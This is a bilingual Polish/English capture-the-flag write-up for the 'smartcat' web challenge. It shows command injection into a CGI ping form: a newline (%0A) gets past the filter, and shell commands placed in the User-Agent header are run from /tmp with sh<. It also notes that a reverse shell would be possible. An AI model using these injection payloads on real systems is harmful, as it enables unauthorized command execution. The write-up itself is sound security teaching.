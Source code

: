 ﻿##smartcat (Web, 50+50p)

###PL
[ENG](#eng-version)

W zadaniu dostajemy do dyspozycji webowy interfejs (CGI) pozwalający pignować wskazanego hosta. 
Domyślamy się, że pod spodem operacja jest realizowana jako wywołanie `ping` w shellu z doklejonym podanym przez nas adresem.

#### Smartcat1

Pierwsza część zadania polega na odczytaniu flagi znajdującej się w nieznanym pliku, więc wymaga od nas jedynie możliwości czytania plików.
Operatory:
	 $;&|({`\t 

są zablokowane, ale zauważamy, że znak nowej linii `\n` jest wyjątkiem.
Możemy dzięki temu wykonać dowolną komendę podając na wejściu np.

`localhost%0Als`

Co zostanie potraktowane jako 2 osobne komendy - `ping localhost` oraz `ls`

Wywołanie `ls` pozwala stwierdzić, że w bierzącym katalogu jest katalog `there`, ale nie mamy możliwości listować go bez użycia spacji. Po chwili namysłu wpadliśmy na pomysł żeby użyć programu `find` który dał nam:

```
.
./index.cgi
./there
./there/is
./there/is/your
./there/is/your/flag
./there/is/your/flag/or
./there/is/your/flag/or/maybe
./there/is/your/flag/or/maybe/not
./there/is/your/flag/or/maybe/not/what
./there/is/your/flag/or/maybe/not/what/do
./there/is/your/flag/or/maybe/not/what/do/you
./there/is/your/flag/or/maybe/not/what/do/you/think
./there/is/your/flag/or/maybe/not/what/do/you/think/really
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
```

Pozostało nam tylko wywołać `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag` i uzyskać flagę:

`INS{warm_kitty_smelly_kitty_flush_flush_flush}`

#### Smartcat2

Druga część zadania jest trudniejsza, ponieważ treść sugeruje, że musimy odczytać flagę przez coś znajdującego się w katalogu `/home/smartcat/` oraz, że potrzebny będzie do tego shell.
Zauważamy po pewnym czasie, że możemy tworzyć pliki w katalogu `/tmp`. 
Możemy także uruchamiać skrypty shell przez `sh<script.sh`, ale nadal mieliśmy problem z tym, jak umieścić w skrypcie interesującą nas zawartość.
Wreszcie wpadliśmy na to, że istnieją pewne zmienne, na których zawartość możemy wpłynąć - nagłówki http.
W szczególności możemy w dowolny sposób ustawić swój `user-agent`. 
Następnie możemy zawartość zmiennych środowiskowych wypisać przez `env` a wynik tej operacji zrzucić do pliku w `tmp`, a potem uruchomić przez `sh</tmp/ourfile`.

Pierwsza próba zawierająca user-agent: `a; echo "koty" >/tmp/msm123; a` zakończyła się sukcesem. 

Mogliśmy więc z powodzeniem wykonać dowolny kod, w tym użyć `nc` lub `pythona` do postawienia reverse-shell. Zamiast tego najpierw wylistowaliśmy katalog `/home/smartcat/` znajdując tam program `readflag`, który przed podaniem flagi wymagał uruchomienia, odczekania kilku sekund i przesłania komunikatu.
Wysłaliśmy więc na serwer skrypt, który wykonywał właśnie te czynności z podanym programem i dostaliśmy:

	Flag:
				___
			.-"; ! ;"-.
		  .'!  : | :  !`.
		 /\  ! : ! : !  /\
		/\ |  ! :|: !  | /\
	   (  \ \ ; :!: ; / /  )
	  ( `. \ | !:|:! | / .' )
	  (`. \ \ \!:|:!/ / / .')
	   \ `.`.\ |!|! |/,'.' /
		`._`.\\\!!!// .'_.'
		   `.`.\\|//.'.'
			|`._`n'_.'|  hjw
			"----^----"

`INS{shells_are _way_better_than_cats}`

###ENG

In the task we get a web interface (CGI) for pinging selected host.
We predict that underneath this is calling `ping` from shell with adress we give.

#### Smartcat1-eng

First part of the task requires reading a flag residing in an unknown file, so we only need to be able to read files.
In the web interface characters 
	
	$;&|({`\t

are blocked, but we notice that newline character `\n` or `%0A` is an exception.
Thanks to that we can execute any command we want by using input:

`localhost%0Als`

This will be executed as 2 separate commands - `ping localhost` and `ls`

Calling `ls` shows us that in currend directory there is a `there` directory, but we can't list it since we can't use space. After a while we figure that we could use `find` which gived us:

	.
	./index.cgi
	./there
	./there/is
	./there/is/your
	./there/is/your/flag
	./there/is/your/flag/or
	./there/is/your/flag/or/maybe
	./there/is/your/flag/or/maybe/not
	./there/is/your/flag/or/maybe/not/what
	./there/is/your/flag/or/maybe/not/what/do
	./there/is/your/flag/or/maybe/not/what/do/you
	./there/is/your/flag/or/maybe/not/what/do/you/think
	./there/is/your/flag/or/maybe/not/what/do/you/think/really
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag


We call: `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag` and get flag:

`INS{warm_kitty_smelly_kitty_flush_flush_flush}`

#### Smartcat2-eng

Second part is more difficult, since we task suggests we need to get the flag using something in `/home/smartcat/` dir and that we will need a shell for that.
After some work we notice that we can create files in `/tmp`.
We can also call shellscripts by `sh<scrupt.sh`, but we still didn't know how to place data we want inside the file.
Finally we figured that there are some environmental variables that we can set - http headers.
In particular we can set `user-agent` to any value we want.
We can then list those variables by `env` and save result of this operation to a file in `/tmp` and then run with `sh</tmp/ourfile`.

First attempt containing: `a; echo "koty" >/tmp/msm123; a` was successful.

Therefore, we could execute any code, including using `nc` or `python` to set a reverse-shell. Instead we started with listing `/home/smartcat/` directory, finding `readflag` binary, which requires us to execute it, wait few seconds and then send some message to get the flag.
Instead of the shell we simply sent a script which was doing exactly what `readflag` wanted and we got:

	Flag:
				___
			.-"; ! ;"-.
		  .'!  : | :  !`.
		 /\  ! : ! : !  /\
		/\ |  ! :|: !  | /\
	   (  \ \ ; :!: ; / /  )
	  ( `. \ | !:|:! | / .' )
	  (`. \ \ \!:|:!/ / / .')
	   \ `.`.\ |!|! |/,'.' /
		`._`.\\\!!!// .'_.'
		   `.`.\\|//.'.'
			|`._`n'_.'|  hjw
			"----^----"

`INS{shells_are _way_better_than_cats}`
